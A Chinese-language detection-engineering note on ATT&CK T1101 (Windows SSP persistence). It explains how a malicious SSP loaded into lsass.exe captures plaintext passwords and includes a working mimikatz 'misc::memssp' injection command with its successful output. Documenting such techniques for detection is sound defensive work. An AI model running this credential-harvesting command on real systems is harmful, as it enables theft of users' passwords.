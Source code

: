 # T1101-win-SSP权限维持

## 来自ATT&CK的描述

Windows SSP（Windows安全支持提供程序）动态链接库在系统启动时加载到LSA（本地安全机构）进程中。一旦加载到LSA中，SSP动态链接库可以访问存储在Windows中的加密和明文密码，例如任何登录用户的域密码或智能卡PIN码。SSP配置存储在两个注册表项中：HKLM\SYSTEM\CurrentControlSet\Control\Lsa\Security Packages和HKLM\SYSTEM\CurrentControlSet\Control\Lsa\OSConfig\SecurityPackages。攻击者可能会修改这些注册表项来添加新的SSP。这些SSP将在下次系统启动时加载，或者在调用AddSecurityPackage Windows API函数时加载。

## 测试案例

SSP（Security Support Provider）是windows操作系统安全机制的提供者。简单的说，SSP就是DLL文件，主要用于windows操作系统的身份认证功能，例如NTLM、Kerberos、Negotiate、Secure Channel（Schannel）、Digest、Credential（CredSSP）。

SSPI（Security Support Provider Interface，安全支持提供程序接口）是windows操作系统在执行认证操作时使用的API接口。可以说SSPI就是SSP的API接口。

如果获得目标系统system权限，可以使用该方法进行持久化操作。其主要原理是：LSA（Local Security Authority）用于身份验证；lsass.exe作为windows的系统进程，用于本地安全和登录策略；在系统启动时，SSP将被加载到lsass.exe 进程中。但是，假如攻击者对LSA进行了扩展，自定义了恶意的DLL文件，在系统启动时将其加载到lsass.exe进程中，就能够获取lsass.exe进程中的明文密码。这样即使用户更改密码并重新登录，攻击者依然可以获得该账号的新密码。

## 检测日志

windows安全日志

## 测试复现

### 方法一

使用mimikatz将伪造的SSP注入内存，这样做不会在系统中留下二进制文件，但如果域控制器重启，被注入内存的伪造的SSP将会丢失。

```dos
mimikatz.exe "privilege::debug" "misc::memssp" exit
```

```test
C:\Users\Administrator\Desktop\mimikatz_trunk\x64>mimikatz.exe "privilege::debug
" "misc::memssp" exit

  .#####.   mimikatz 2.1.1 (x64) built on Apr  9 2017 23:24:20
 .## ^ ##.  "A La Vie, A L'Amour"
 ## / \ ##  /* * *
 ## \ / ##   Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 '## v ##'   http://blog.gentilkiwi.com/mimikatz             (oe.eo)
  '#####'                                     with 21 modules * * */

mimikatz(commandline) # privilege::debug
Privilege '20' OK

mimikatz(commandline) # misc::memssp
Injected =)

mimikatz(commandline) # exit
Bye!
```

